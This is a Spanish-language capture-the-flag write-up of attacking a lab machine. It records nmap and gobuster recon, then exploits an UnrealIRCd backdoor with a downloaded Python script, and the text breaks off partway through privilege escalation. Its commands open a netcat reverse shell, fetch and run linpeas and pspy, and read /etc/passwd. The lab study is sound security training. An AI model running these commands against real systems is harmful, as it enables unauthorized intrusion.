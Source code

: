 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

## reconocimiento en la red

![[Reconocimiento VulnixReal.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnix real nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Pasted image 20240306235939.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[VulnixReal goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 instantamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[vulnix real msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo segun lo encontrado

![[searchUnreal vulnix real.png]]


Use 2
![[use2 vulnix real.png]]

Options
![[vulnix real options.png]]

set rhost = IP:
![[set rhjost vulnix real.png]]

set rport  6667

![[set report 6667 vulnix real.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[vulnix real use exploit irc unreal.png]]

show payloads:
![[show payloads vulnix real.png]]

set payload reverse:
![[set pauload reverse vulnix real.png]]

set lhosts = local IP:
![[setlhost vulnix real.png]]


exploit
![[vulnix real exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[descargar exploit del repo de github.png]]

Editamos el script en python para poner nuestra IP y el puerto con el que vamos a hacer el reverse proxy:
![[real vulnix script original.png]]


modificamos segun nuestras preferencias:
![[config parameter vulnix real.png]]

en este caso nuestra IP local y el puerto por el cual nos vamos a poner a la escucha que va a ser el 6666

ahora nos ponemos a la escucha en la terminal con  el comando:
nc -lvp 6666

![[vulnix real reverse shell en escucha.png]]

y una vez estamos escuchando por el puerto correcto lo que hacemos es ejecutar el scrip de python para conectar por el puerto 6667 y lanzar una reverse shell sobre nuestra IP por el puerto 6666
python3 exploit.py 192.168.1.140 6667 -payload netcat

![[vulnix - real send exploit.png]]

y en la terminal que estamos a la escucha por el puerto 6666 recibimos la conexión:

![[vulnix - real connection reverse proxy.png]]

Entramos con el usuario serve
![[acceso con user serve vulnix real.png]]


intentamos movernos hasta home/serve  para ver si está la flag del usuario
y conseguimos la primera flag del usuario:
![[vulnix real - user server flag.png]]
user server flag: 3b7fb7c1c8737a5c67dc513657e3efb3


Comando id
![[vulknix real -comando id para ver el usuario.png]]
Con el comando id vemos que el usuario es server 

vemos el passwd en /etc/passwd:
![[vulnix- real -passwd.png]]

server:x:1000:1000:server,,,:/home/server:/bin/bash
aquí vemos que el id de usuario es 1000 e identificador de grupo es 1000 --> Todos los que comienzan con 1000 en LINUX son usuarios

ahora vamos a hacer tratamiento de la TTI:


Tratamiento de la TTI
script /dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
export TERM = xterm-256color
export SHELL = bash
stty -a

Descargamos linpeas:

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

le damos permisos de ejecucion al fichero .sh
chmod +x linpeas.sh
ejecutamos linpeas
./linpeas.sh

![[vulnix - real linpeas.png]]

Pero no encontramos nada interesante

Usamos la herramient pspy:
https://github.com/DominicBreuker/pspy
url de descarga:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

le damos permisos de ejecucion
chmod +x pspy64

lo ejecutamos
./pspy64
![[vulnyx - real pspy64.png]]

nos encontramos un fichero que se ejecuta como admisnitrador en /opt/Task
vemos ese fichero:
cat

